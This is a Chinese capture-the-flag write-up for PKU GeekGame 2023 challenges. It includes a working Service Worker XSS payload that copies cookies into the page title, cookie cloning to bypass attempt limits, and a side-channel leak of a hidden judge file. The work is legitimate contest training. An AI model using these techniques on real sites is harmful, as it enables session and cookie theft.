# Writeup

参赛三年终于进前30了

## 一眼盯帧 #prob23-signin

下载gif后发现其每帧展示了不同字母。尝试后发现VLC可以“播放” gif。因此使用VLC逐帧暂停后将字符串抄下来，得到`synt{jrypbzrarjcynlref}`。由于其格式，很自然可知`synt`对应`flag`，根据ROT13即可知道答案为`flag{welcomenewplayers}`

## 小北问答!!!!! #prob18-trivia

### Q1 在北京大学（校级）高性能计算平台中，什么命令可以提交一个非交互式任务？



### Q2 根据 GPL 许可证的要求，基于 Linux 二次开发的操作系统内核必须开源。例如小米公司开源了 Redmi K60 Ultra 手机的内核。其内核版本号是？

首先搜索`redmi "k60" ultra "kernel" version`，在 [MiCode/Xiaomi_Kernel_OpenSource](https://github.com/MiCode/Xiaomi_Kernel_OpenSource) 上查到该型号对应的分支。然后搜索`Check kernel version linux in source code`，查到`make version`，但该方法需要下载源代码。继续搜索，发现可以直接阅读对应Makefile，故知为`5.15.78`。



### Q3 每款苹果产品都有一个内部的识别名称（Identifier），例如初代 iPhone 是 iPhone1,1。那么 Apple Watch Series 8（蜂窝版本，41mm 尺寸）是什么？

搜索`Identifier "iPhone1,1"`，在 https://gist.github.com/adamawolf/3048717 找到答案。

### Q4 本届 PKU GeekGame 的比赛平台会禁止选手昵称中包含某些特殊字符。截止到 2023 年 10 月 1 日，共禁止了多少个字符？（提示：本题答案与 Python 版本有关，以平台实际运行情况为准）

该题需要阅读源码，首先根据公告找到 https://github.com/PKU-GeekGame/guiding-star ，在后端代码中搜索`USER id`，找到 https://github.com/PKU-GeekGame/gs-backend/blob/fbee2a91787c9e205451a9fe7da29e5aa73c5e4c/src/store/user_profile_store.py#L85 中对用户名的过滤策略。
先采用 Python 3.10跑出来 `4472`，不对。再尝试 Python 3.8，得到正解 `4445`。

### Q5 在 2011 年 1 月，Bilibili 游戏区下共有哪些子分区？（按网站显示顺序，以半角逗号分隔）

在 archive.org 搜索 bilibili.com ， 发现有2011年1月的存档，点击！发现不对。过了几天看到提示说B站改过名，于是在维基百科上搜索B站的词条，尝试了几个曾用名，成功进入游戏区，获得答案。

### Q6 这个照片中出现了一个大型建筑物，它的官方网站的域名是什么？（照片中部分信息已被有意遮挡，请注意检查答案格式）

首先搜索图中的几个赞助商名字，得知会议叫做2023年卢森堡IASP世界大会。但其位置信息在中文互联网没找到，又懒得看英文，于是直接求助New Bing。


得知会议举办地点在卢森堡欧洲会议中心，输入网址！错啦！
于是思考建筑物应该在这个会议中心附近，于是在Google地图中绕着会议中心转了¼圈看到一个不能说一模一样只能说完全一致的建筑，一查发现叫卢森堡音乐厅，更加符合它的外观了，提交，flag到手！


## 基本功 #prob24-password

### 简单的Flag

看到提示后使用提示给的库尝试解密，然而不知道那个driver的明文版本，下了若干个体积都不一致，于是直接读二进制，发现`LICENCE.chromedriverUT`是一个公共字符串，扔进去跑，错了！于是直接把体积加进来一起搜索`chromedriver linux64 5845152`，搜到了对应的包，用其进行破解，成功破解！

## Dark Room #prob16-darkroom

### Flag 1

浅读代码后规划出最优路径，然而走到终点只有90\%的SAN，和最优解117\%仍有距离。
又读了一点代码后发现`h`有概率增加`10`\% SAN，只要连续成功三次即可正好117\%！
于是直接上脚本（见[prob16-darkroom/room.py](prob16-darkroom/room.py)）。
脚本跑了四五十次就试出了答案。

## 麦恩·库拉夫特 #prob22-minecraft

###  探索的时光

顺着一条路走下去发现是死路，掉头发现有个岔路，拐过去上了个梯子，沿着河边走就看到一处钻石包围的活板门。
为了防止有重要道具被水破坏，我学习精卫把周围的水先填了，然后才开挖。
挖的时候看到活板门下面有很长一段通道，为了防止直接走掉下去，我选择从活板门旁边的钻石块开始挖，一格一格往下，结果到底下的时候发现有水保护。。。
到了低下之后看到岩浆中间有个显眼的建筑，本来以为需要身法（或者按下蹲键）才能靠近，结果发现铺的是玻璃，路还挺宽。。。

## Emoji Wordle #prob14-emoji

代码见[prob14-emoji/emoji.ipynb](prob14-emoji/emoji.ipynb)

### Level 1

看到 Level 1答案固定就决定枚举，找了个全emoji的网站来尝试，试了几个都是全红，于是觉得应该不需要考虑那么多emoji，于是先一波枚举拿到所有emoji：

```python
emoji_set = set()
for _ in tqdm.trange(2000):
    res = requests.get("https://prob14.geekgame.pku.edu.cn/level1")
    for emoji in res.content.decode()[257:257 + 64]:
        emoji_set.add(emoji)
    time.sleep(0.1)
```

然后依次将每个emoji重复64遍，记录绿色的部分，得到答案

```python
for idx, status in enumerate(mask):
    if status != red:
        trial = session.get(f"https://prob14.geekgame.pku.edu.cn/level1?guess={''.join(emojis[idx] for _ in range(64))}")
        l = content1.find("push") + 6
        for idx2, trial_status in enumerate(trial.content.decode()[l: l + 64]):
            if trial_status == green:
                ans[idx2] = emojis[idx]
        print(trial.content.decode()[l: l + 64])
print("".join(ans))
```

### Level 2 & Level 3

由于我不知道session里除了cookies还有没有其他可以鉴定身份的东西，于是一开始打算用`pickle.dump`。结果不行。于是先试试将一个session的cookies传给另一个新建的session，发现两者确实共享答案。并且我克隆出来的session不知道是权限问题还是什么原因，不管如何尝试都不会减尝试次数（准确地说，每次显示的都是克隆的起点的尝试次数-1，也即克隆之后就再也没减过）。因此Level 2和Level 3直接在一分钟内依次通过
```python
lv3sess = requests.Session()
lv3sess.get(f"https://prob14.geekgame.pku.edu.cn/level3?guess={emojis[0] * 64}")
new_s = requests.Session()
for k, v in lv3sess.cookies.get_dict().items():
    new_s.cookies[k] = v

ans = ["🟨"] * 64
for emoji in emojis:
    trial = new_s.get(f"https://prob14.geekgame.pku.edu.cn/level3?guess={''.join(emoji for _ in range(64))}")
    l = content1.find("push") + 6
    # assert l == 516, f"expect l to be 516, found {l}!"
    for idx2, trial_status in enumerate(trial.content.decode()[l: l + 64]):
        if trial_status == green:
            ans[idx2] = emoji
    l2 = trial.content.decode().find("remaining")
    print(trial.content.decode()[l2: l2 + 12])
    print(trial.content.decode()[l: l + 64])
    print("".join(ans))
trial = new_s.get(f"https://prob14.geekgame.pku.edu.cn/level3?guess={''.join(ans)}")
print(trial.content.decode())
```

## 第三新XSS #prob01-homepage

### 巡猎

先尝试直接读取`document.cookie`，发现不同path的确实读不到。之前写chrome插件时，通过向chrome申请权限能够读到，于是先查了这个方向，然后发现似乎不对。于是又查了一会，查到Same-origin policy。于是通过内嵌一个存了flag的网址的iframe并读取其cookie然后`document.title = document.cookie`成功完成。

### 记忆

根据提示学习了Service Worker。但是注册成功后翻车了114次
<details>
<summary>翻车失败思路</summary>

<ol>

<li /> 打算直接在fetch的回调中`document.title = document.cookie`，失败（后来了解到SW无法访问`document`和`window`）
<li /> 上一思路翻车后，我以为是`document`没加载好，于是用了各种手段延时或者循环执行`document.title = document.cookie`，皆以失败告终。
<li /> 看到群里有选手说：

> 注册了好多乱七八糟的网页

于是想到可能需要重定向？于是写完一试，发现`window`也访问不了。
<li /> 还有很多很多失败的尝试……
<li /> 最后想到修改`fetch`的结果，返回一个包含脚本`document.title = document.cookie` 的 HTML。本地尝试时成功修改，结果云端还是失败。思考了一下，突然发现云端正常应该显示`Hello, world!`，但是跑了我的网页之后打印的是空，说明方法对了。于是去读XSS Bot源码，发现出题人~~颇有心机地~~在访问`/admin/`后增加了半秒的延迟才设置flag，于是参考前面的思路，用`setInterval`注册了修改标题的函数，终于成功拿下。

</ol>

</details>

最终的成功方案：Service Worker篡改FetchEvent的结果，注册一个100ms改一次标题的函数。

```javascript
/*
{"Content-Type": "text/javascript",
"Service-Worker-Allowed": "/"}
*/
self.addEventListener('fetch', function (event) {
    event.respondWith(new Response(
        new Blob([
            "<script defer>" +
            "const f = () => { document.title = document.cookie };\n" +
            "setInterval(f, 100);\n" +
            "</script>"
        ],
            { type: 'text/html' })));
});
```

主页面：

```javascript
<script defer>const registerServiceWorker = async () => {
  if ("serviceWorker" in navigator) {
    try {
      const registration = await navigator.serviceWorker.register("/server/index.js", {
        scope: "/",
      });
      if (registration.installing) {
        console.log("Service worker installing");
      } else if (registration.waiting) {
        console.log("Service worker installed");
      } else if (registration.active) {
        console.log("Service worker active");
      }
    } catch (error) {
      console.error(`Registration failed with ${error}`);
    }
  }
};
registerServiceWorker();
</script>
```

然后让XSS Bot去访问主页面即可。

## 简单的打字稿 #prob13-easyts

### Super Easy

（疑似发现了非预期解）

尝试直接读取flag，会触发审查`绷`。稍微阅读了一下TypeScript的手册，了解到这是`Literal Type`。然后搜索`typescript literal type check`，在浩如烟海的结果中敏锐地捕捉到[Can I slice literal type in TypeScript](https://stackoverflow.com/questions/70831365/can-i-slice-literal-type-in-typescript)，里面提供了

```typescript
type Split<S extends string, D extends string> =
    string extends S ? string[] :
    S extends '' ? [] :
    S extends `${infer T}${D}${infer U}` ? [T, ...Split<U, D>] : [S];
```

稍加思考后，我想到：

```typescript
type Prefix<S extends string, D extends string> = (
    S extends `${D}${infer U}` ? true : false
);
function f(x: Prefix<flag1, "flag{">) {}
f(false)
```

这样就能通过报错与否来确定我猜测的前缀是否正确。但这样每一位要试验`a-zA-Z0-9_`，很不优雅，于是我想到，可以一次性测试多个字符，如：



如果`fd(false)`报错，则说明`flag{`的后一位是`d`。然而这个方法生成的代码会超出题目限制长度，因此无法一次确定一个字符，一度让我以为这是非预期解。

于是，我就想到，条件判断后可以返回比`true`更有力的信息，通过

```
type Prefix<S extends string, D extends string> = (
    S extends `${D}${infer U}` ? U : false
);
function f(x: Prefix<flag1, "flag">) {}
f(false)
```

直接把flag四个字符砍掉，把剩下的内容作为报错输出，则可以一步得到答案



## 汉化绿色版免费下载 #prob25-krkr

###  普通下载

先搜索`xp3 suffix`，得知这是一个叫`KiriKiri`的~~galgame~~游戏框架。
然后找到一个 [`xp3`文件~~捷豹~~解包工具](https://github.com/kondukto-io/kdt)。解包后可以在游戏逻辑中看到明文存储的flag。

### 高速下载

首先通过阅读`xp3`知道程序流程记录了一个哈希值，但是可以有很多不同的字符串有相同的哈希值，因此无法确定结果。
看到二阶段提示前就考虑过解包剩下的两个`ksd`文件，当时也找到[解包工具](https://github.com/arcusmaximus/KirikiriTools)了，但不知什么原因没看到关键信息。
看到二阶段提示后重新看了一下，发现有 `trail_round1_sel_[aeio]` 几个变量，于是大概确定其为计数器。但同时还看到 `auto` 开头的这几个变量。于是自己重开了一局，点了5个`A`，发现只有不带`auto`的自增了，于是先只考虑不带的进行枚举，得到答案。

```python
TARGET = 7748521
count = {
    "i": 1,
    "a": 6,
    "e": 3,
    "o": 6,
    "u": 0,
}
DEPTH = sum(count.values())
def dfs(remain, h):
    if remain == 0:
        if TARGET == ((h * 13337) + 66) % 19260817:
            return "}"
        return []
    res = []
    for idx, c in enumerate("aeiou"):
        if count[c] > 0:
            count[c] -= 1
            for suffix in dfs(remain - 1, ((h * 13337) + 11 * (idx + 1)) % 19260817):
                res.append(c + suffix)
            count[c] += 1
    return res

for ans in dfs(DEPTH, 1337):
    print("flag{" + ans.lower())
    print("flag{" + ans.upper())
```

## 初学 C 语言 #prob09-easyc

### Flag 1

~~无IDA玩家的暴力做法~~
先暴力把栈上所有东西打印出来（`|>`后为有用信息）

然后将十六进制数按照ASCII打印出来获得flag。


## 关键词过滤喵，谢谢喵 #prob04-filtered

### 字数统计喵

唯一的难点感觉应该是进位以及考虑\n。最早实现的时候考虑的方法是确保开头一定有两个0，这样就不会出问题。（后来brainfuck的时候采用了可能高效一点的方式。

```
把【.】替换成【,】喵
把【\n】替换成【,】喵
把【^】替换成【0】喵
什么也不做：
    把【^00】替换成【0】喵
    把【^0】替换成【00】喵
    把【0,】替换成【1】喵
    把【1,】替换成【2】喵
    把【2,】替换成【3】喵
    把【3,】替换成【4】喵
    把【4,】替换成【5】喵
    把【5,】替换成【6】喵
    把【6,】替换成【7】喵
    把【7,】替换成【8】喵
    把【8,】替换成【9】喵
    把【9,】替换成【,0】喵
    如果看到【,】就跳转到【什么也不做】喵
重复把【^0】替换成【】喵
把【^$】替换成【0】喵
谢谢喵
```

### 排序喵

题目中的`把【关注(.+?)喵】替换成【举办\1喵】喵`给了一个很强的提示，Python的正则是扩展版本。
再考虑到题目一，自然地想到将空行过滤后，先将字符串复制一份（同时用东西隔开，此处用emoji应该安全一些，但是当时这样就过了），然后每次冒泡将开头为空的拉到前面（`(.+)\|(.+)`是前一行，`\|(.+)`是后一行`|`前面有字符的序列）

```
重复把【\n\n】替换成【\n】喵
把【(.+)】替换成【\1|\1】喵
如果看到【\|】就跳转到【什么也不做】喵
冒泡泡：
    把【(.+)\|(.+)\n\|(.+)】替换成【|\3\n\1|\2】喵
    如果看到【(.+)\|(.+)\n\|(.+)】就跳转到【冒泡泡】喵
    如果看到【.】就跳转到【什么也不做】喵
什么也不做：
    把【.\|】替换成【|】喵
    如果看到【(.+)\|(.+)\n\|(.+)】就跳转到【冒泡泡】喵
    把【\n\|】替换成【\n】喵
    把【^\|】替换成【】喵
    如果看到【\|】就跳转到【什么也不做】喵

谢谢喵
```

### brainfuck 喵

这题感觉就是一个小模拟。唯一的难点应该是[]的匹配。
我采取的方案是给每个`[`和`]`标上序号，则`114[`智能匹配`114]`、不能匹配`514]`，编写难度大大降低。
```
把【🔶(\d*[^\d])】替换成【\1🔶】喵
```
我最早写了一个版本之后喜提超时，于是稍微优化了一下输出和自增，利用了分治算法：

```
自增喵：
    把【📝】替换成【➕📝】喵
自增小步喵：
    如果看到【[0-7]➕】就跳转到【07自增小步喵】喵
    如果看到【[89ab]➕】就跳转到【8b自增小步喵】喵
    把【 f➕】替换成【 10】喵
    把【f➕】替换成【➕0】喵
    把【e➕】替换成【f】喵
    把【d➕】替换成【e】喵
    把【c➕】替换成【d】喵
    如果看到【➕】就跳转到【自增小步喵】喵
    如果看到【.】就跳转到【小步喵】喵
8b自增小步喵：
    把【b➕】替换成【c】喵
    把【a➕】替换成【b】喵
    把【9➕】替换成【a】喵
    把【8➕】替换成【9】喵
    如果看到【.】就跳转到【小步喵】喵
```

这样就不需要每次自增考虑16次了。**然而仍然超时了**。此时，我看到题目中说的：
> 建议再仔细看看程序的实现喵

于是我看了一眼`judge.py`：
```python
LEVEL3 = ['hello.txt', 'ayaka.txt']
```
于是我猜测答案是让我~~猜出~~套出`ayaka.txt`的内容，于是我先

```
如果看到【^(\n|.){1145}(\n|.)+$】就跳转到【摆烂】喵
...
摆烂：
    谢谢喵
```

通过二分大括号里的值，确定了ayaka文件的长度为`1801`。然后通过形如
```
如果看到【^\+(\n|.){1800}(\n|.)+$】就跳转到【摆烂】喵
```
的方式，通过区分判题机是WA还是TLE来判断`ayaka.txt`的内容。
跑了十个小时左右（30s连接3次限制），顺利得到`ayaka.txt`的内容为
```brainfuck
++++++++[->++++++++<]>++++.<+++++[->+++++<]>++++.<++++[->++++<]>++++.<+++[->---<]>-----.+.<+++[->+++<]>+++.<+++[->---<]>------.<+++[->+++<]>++++.<+++++++++[->---------<]>-.<++++++++[->++++++++<]>+++++++++++++++.---------.<++++++++[->--------<]>------.<+++++++++[->+++++++++<]>+++.<+++[->---<]>---.---.<++++++++[->--------<]>-----.<+++++++[->+++++++<]>++++++++.++++++++.<++++[->++++<]>++.<+++[->---<]>--.+.+++++++++.---.<++++++++[->--------<]>---------------.<+++++[->+++++<]>++++++++++.<++++++[->++++++<]>++++++++.--..----.<+++[->+++<]>+..<+++[->---<]>-.++++++.-.<++++++++[->--------<]>-------.<++++++++[->++++++++<]>++++++++++++.<+++++++++[->---------<]>--.<++++++[->++++++<]>+++++++.<++++[->++++<]>++++++.<+++[->+++<]>+++.----.<+++[->+++<]>+.<++++[->----<]>--.<++++[->++++<]>+++.-----.<++++++++[->--------<]>---------------.<+++++[->+++++<]>++++++++++.<++++++[->++++++<]>+++++.<+++[->---<]>--.<+++[->+++<]>++++.<++++++++[->--------<]>--------------.<++++++++[->++++++++<]>++++++.<+++[->+++<]>+++.---.--.<++++++++[->--------<]>-------------.<++++++[->++++++<]>+++++.<++++++[->++++++<]>+.<+++[->---<]>----.<+++++[->+++++<]>.-----.--------.<+++[->---<]>---.<+++++++[->-------<]>--.
```

输出为`Daughter of the Yashiro Commission's Kamisato Clan from Inazuma`，很容易看出这就是~~互联网万千少狗的主人~~神里綾華的介绍词：


因此，也可以在输出中直接特判并替换。
不过我在偷了前800个字符后就很好奇为什么我的解释器会超时，于是先拿了前800个字符的部分来跑，结果发现是给括号标记的地方写错了，改完直接交就对了。[代码参见](prob04-filtered/lv3.bf)。但因为偷代码的程序开始跑了，就还是让它跑完了，~~于是得到上面的OP画面~~。

## 扫雷III #prob12-minesweeper

本题我编写了一个[tampermonkey](https://www.tampermonkey.net/)脚本，[参见prob12-minesweeper/main.js](prob12-minesweeper/main.js)，效果：


~~绝大部分按键在最终的正解中其实都没用到。~~

擅长扫雷的人很容易发现这题具有极大的规律性，并且大概是是将一个NPC问题编码成了扫雷：

通过观察上图，很明显可以看出，左边的若干个类似支原体/tRNA头部的结构中的两个格子要么上面不是雷，要么下面不是雷。并且这个上/下会顺着由1构成的竖直线路向下传播，因此它们编码了若干个`0` `1`。
每个竖直线路都会碰到若干个特殊结构，该结构是将其`0` `1`分岔到右和下两条线路的结构。而水平线路在碰到右边核桃状物体前，可能会经过一个特殊结构，那个的作用是对变量取非（$f(x) = 1 - x$）。而核桃状结构看起来就是对变量的约束。一开始，我以为是`2SAT`或者`3SAT`。后来细看之下发现是整数规划。（也可以编码成3SAT，但是整数规划更自然）

以下为按照时间线的解题流程。
由于图中有许多顶部为`21112`形式的块，我通过计算它们的位置，写了脚本（即按钮`21112`）来自动将其打开。
经过我的观察，我发现每行的一对核桃的约束为该行的三个`0` `1`变量之和$\leq 2$。于是我写了一个脚本（即`ALL-IN-ONE`）来计算每对核桃取的是哪些变量，输出格式如下。


由于对SMT不熟，我自己[手搓了一个求解器](prob12-minesweeper/solver.ipynb)。
通过将脚本给出的约束导入，解出（此处用的是我通过这题时的约束，由于最早的时候考虑了一些部分变量已知的“核桃”，所以`res`变量的计算有丶难懂，~~但我现在也看不懂了所以就不改了吧~~）


根据`1`和`0`点开扫雷中每个变量对应的位置，然后使用`cascade`快速向下传播（`detect`按钮也能传播，但是遇到某些结构会卡住，而且效率未必有`cascade`高，`cascade`直接半无脑隔两格开一个）

## 小章鱼的曲奇 #prob08-cookie

《放了很久因为以为很难，结果发现是调库这种事》
老规矩，遇事不决问New Bing：
